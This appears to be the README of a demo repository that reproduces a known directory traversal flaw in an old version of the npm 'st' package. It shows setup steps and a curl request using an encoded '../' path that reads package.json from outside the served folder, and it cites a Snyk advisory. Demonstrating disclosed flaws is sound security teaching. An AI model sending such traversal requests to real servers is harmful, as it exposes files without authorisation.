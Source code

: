 # vulnst
Directory Traversal Demo of npm [st](https://www.npmjs.com/package/st).

## Usage

```
$ npm install
$ npm start
$ curl http://localhost:3000/public/%2e%2e/package.json
{
  "name": "stvuln",
  "version": "0.0.0",
  "private": true,
  "scripts": {
    "start": "node ./bin/www"
  },
  "dependencies": {
    "cookie-parser": "~1.4.4",
    "debug": "~2.6.9",
    "express": "~4.16.1",
    "http-errors": "~1.6.3",
    "morgan": "~1.9.1",
    "pug": "2.0.0-beta11",
    "st": "^0.2.4"
  }
}
```

## References
- https://snyk.io/vuln/npm:st:20140206
